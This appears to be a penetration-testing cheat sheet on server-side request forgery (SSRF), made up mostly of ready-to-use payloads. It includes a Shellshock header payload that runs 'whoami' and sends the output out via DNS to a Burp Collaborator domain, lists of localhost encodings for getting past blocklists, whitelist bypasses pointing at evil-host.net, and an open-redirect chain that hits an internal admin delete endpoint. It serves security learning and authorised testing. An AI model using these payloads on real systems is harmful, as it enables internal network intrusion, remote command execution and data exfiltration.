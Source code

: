 # 🟢 Server-Side Request Forgery (SSRF)

Induce the server-side application to make HTTP requests to an arbitrary domain of the attacker's choosing.

## <mark style="color:red;">Exploiting</mark>

### <mark style="color:orange;">SSRF against the server itself</mark>

Attacker induces the application to make an HTTP request back to the server that is hosting the application, via its loopback network interface (EX: http://localhost/admin)

### <mark style="color:orange;">SSRF against other back-end systems</mark>

* Attacker can exploit the SSRF vulnerability to access the other interface by submitting a internal HTTP request (EX: http://192.168.1.105/admin)

### <mark style="color:orange;">Blind SSRF vulnerabilities</mark>

Response from the back-end request is not returned in the application's front-end response

**Find vulnerability**

Observe a DNS look-up for the supplied **Burp Collaborator domain**

**Example (Blind SSRF with Shellshock exploitation)**

```http
GET /path TTP/1.1
Host: test.net
...
User-Agent: () { :; }; /usr/bin/nslookup $(whoami).aaabbbcccdddeeefff.burpcollaborator.net
...
Referer: http://192.168.0.1:8080
Upgrade-Insecure-Requests: 1
Connection: close
```

## <mark style="color:red;">Bypass</mark>

### <mark style="color:orange;">Bypass blacklist-based</mark>

* Change "127.0.0.1" to

```
http://2130706433
http://017700000001
http://127.1
http://127.0.1
http://0.0.0.0
http://0
http://0x7f000001
http://2130706433
http://017700000001
http://[::]:80
```

* Registering your own domain name that resolves to 127.0.0.1. You can use "spoofed.burpcollaborator.net" for this purpose
* Obfuscating blocked strings using URL encoding or case variation. Example

```
value=http://127.1/%25%36%31dmin/delete?username=carlos
```

### <mark style="color:orange;">Bypass whitelist-based</mark>

* Using "@" char `https://expected-host@evil-host.net`
* Using "#" char `https://evil-host#expected-host.net`
* Create a invalid domain `https://expected-host.evil-host.net`
* Use URL-encode characters to confuse the URL-parsing code `http://localhost:80%2523@evil-host.net/admin`

### <mark style="color:orange;">Bypassing SSRF filters via open redirection</mark>

**Exapmle-1**&#x20;

/product/nextProduct?currentProductId=6&<mark style="color:green;">path</mark>=<mark style="color:yellow;">http://192.168.0.68/admin</mark>

**Exapmle-2**

If "/product/stock" vulnerable to SSRF and "/nextProduct" vulnerable to OpenRedirect, Then

```http
// HTTP request

POST /product/stock vulnerable/1.1
Host: test.net
......
Connection: close

api=/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos
```
